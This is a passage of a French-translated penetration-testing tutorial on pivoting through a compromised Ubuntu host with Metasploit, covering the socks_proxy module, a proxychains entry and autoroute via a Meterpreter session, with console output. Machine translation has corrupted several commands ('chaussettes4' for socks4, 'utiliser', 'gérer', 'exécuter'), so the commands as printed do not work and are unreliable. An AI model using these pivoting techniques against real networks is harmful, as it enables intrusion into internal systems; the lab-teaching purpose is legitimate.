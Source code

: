 #### Confirmation que le serveur proxy est en cours d'exécution

Confirmation que le serveur proxy est en cours d'exécution

```
msf6 auxiliaire (serveur/socks_proxy) > travaux

Emplois
====

   Id Nom Payload Payload opts
   -- ---- ------- ------------
   0 Auxiliaire : serveur/socks_proxy

```

Après avoir lancé le serveur SOCKS, nous allons configurer des chaînes proxy pour acheminer le trafic généré par d'autres outils comme Nmap via notre pivot sur l'hôte Ubuntu compromis. Nous pouvons ajouter la ligne ci-dessous à la fin de notre fichier `proxychains.conf` situé dans `/etc/proxychains.conf` si elle ne s'y trouve pas déjà.

#### Ajout d'une ligne à proxychains.conf si nécessaire

Ajouter une ligne à proxychains.conf si nécessaire

```
chaussettes4 127.0.0.1 9050

```

Remarque : selon la version du serveur SOCKS, nous pouvons parfois avoir besoin de remplacer socks4 par socks5 dans proxychains.conf.

Enfin, nous devons dire à notre module socks_proxy de router tout le trafic via notre session Meterpreter. Nous pouvons utiliser le module `post/multi/manage/autoroute` de Metasploit pour ajouter des routes pour le sous-réseau 172.16.5.0, puis acheminer tout le trafic de nos chaînes proxy.

#### Création d'itinéraires avec AutoRoute

Création d'itinéraires avec AutoRoute

```
msf6 > utiliser post/multi/gérer/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SÉANCE => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SOUS-RÉSEAU => 172.16.5.0
msf6 post(multi/gérer/autoroute) > exécuter

[!] SESSION peut ne pas être compatible avec ce module :
[!] * plate-forme de session incompatible : linux
[*] Module en cours d'exécution contre 10.129.202.64
[*] Recherche de sous-réseaux à autorouter.
[+] Route ajoutée au sous-réseau 10.129.0.0/255.255.0.0 à partir de la table de routage de l'hôte.
[+] Route ajoutée au sous-réseau 172.16.5.0/255.255.254.0 à partir de la table de routage de l'hôte.
[*] Exécution du post-module terminée

```
